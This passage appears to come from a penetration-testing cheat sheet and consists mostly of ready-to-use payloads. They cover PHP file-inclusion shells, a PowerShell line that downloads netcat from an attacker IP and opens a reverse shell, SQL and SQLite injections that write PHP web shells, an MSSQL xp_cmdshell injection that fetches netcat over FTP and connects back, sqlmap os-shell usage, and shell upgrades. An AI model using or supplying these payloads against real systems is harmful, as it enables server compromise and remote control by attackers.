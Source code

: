 ```bash
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```

### Remote File Inclusion Shell: Windows + PHP
```bash
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

### SQL Injection to Shell or Backdoor
```bash
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

```bash
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```bash
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

### SQLite Injection to Shell or Backdoor
```bash
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

### MS-SQL Console
```bash
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

### Upgrading Non-Interactive Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

### Python Input Code Injection
```bash
__import__('os').system('id')
```
